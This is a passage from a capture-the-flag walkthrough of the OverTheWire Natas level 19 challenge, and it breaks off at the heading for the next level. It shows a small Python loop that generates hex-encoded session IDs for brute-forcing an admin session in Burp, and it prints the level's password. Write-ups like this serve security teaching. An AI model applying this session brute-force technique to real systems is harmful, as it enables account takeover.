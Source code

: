 Firsty I decode session id:

![Session id](assets/natas/19/session_id_decode.png)

So now session id is number with additioan passphrase, I has generate data to brute force it, use following script to get data:

```
for i in range(0, 2000):
    payload = '{}-admin'.format(i)
    print(payload.encode('utf-8').hex())
```

After all prepare attack in burp:

![Password](assets/natas/19/password.png)

password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

# ## [Level 20 -> Level 21](https://overthewire.org/wargames/natas/natas21.html)

Username: natas20
Lab URL: http://natas20.natas.labs.overthewire.org/


password: 